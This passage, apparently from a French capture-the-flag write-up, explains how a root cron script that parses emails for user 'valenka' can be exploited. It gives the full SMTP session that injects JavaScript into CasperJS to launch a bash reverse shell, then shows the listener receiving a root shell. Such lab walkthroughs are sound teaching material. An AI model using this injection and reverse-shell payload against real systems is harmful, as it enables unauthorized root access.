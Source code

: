 ```bash
sleep 120
```

Ce script lancé depuis la crontab de `root` va lire les emails à destination de `valenka`.

On peut voir déjà qu'il recherche le nom d'un contact connu comme stipulé dans le scénario, mais pas tous et pas toujours le prénom.

Ensuite on peut voir que la recherche du sujet se fait uniquement sur la chaine `subject` en minuscule alors qu'un client mail prendra la valeur quelle que soit la casse.

Pour terminer, l'extraction de l'URL considère que cette dernière devrait être seule sur une ligne sans suffixe ni préfixe.

## Rien que pour vos yeux

Les plus attentifs auront remarqué qu'en raison du manque de vérification sur l'URL il est possible d'injecter du code javascript dans le fichier qui est ensuite passé à `CasperJS`.

On peut alors réaliser une exécution de commande qui nous amène directement à `root` :

```console
$ ncat 192.168.242.129 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.242.129:25.
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
HELO casino.localdomain
250 casino.localdomain
MAIL FROM: haxor
250 2.1.0 Ok
RCPT TO: valenka
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
subject: fisher recomended you
http'; "use strict"; var spawn = require("child_process").spawn; var child = spawn("bash", ["-c", "bash -i >& /dev/tcp/192.168.242.1/21 0>&1"]); //
.
250 2.0.0 Ok: queued as 4F63BBAD1
QUIT
221 2.0.0 Bye
```

Mission accomplie :

```console
$ sudo ncat -l -p 21 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::21
Ncat: Listening on 0.0.0.0:21
Ncat: Connection from 192.168.242.129.
Ncat: Connection from 192.168.242.129:55866.
bash: cannot set terminal process group (429): Inappropriate ioctl for device
bash: no job control in this shell
root@casino:~/ctf-scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
```

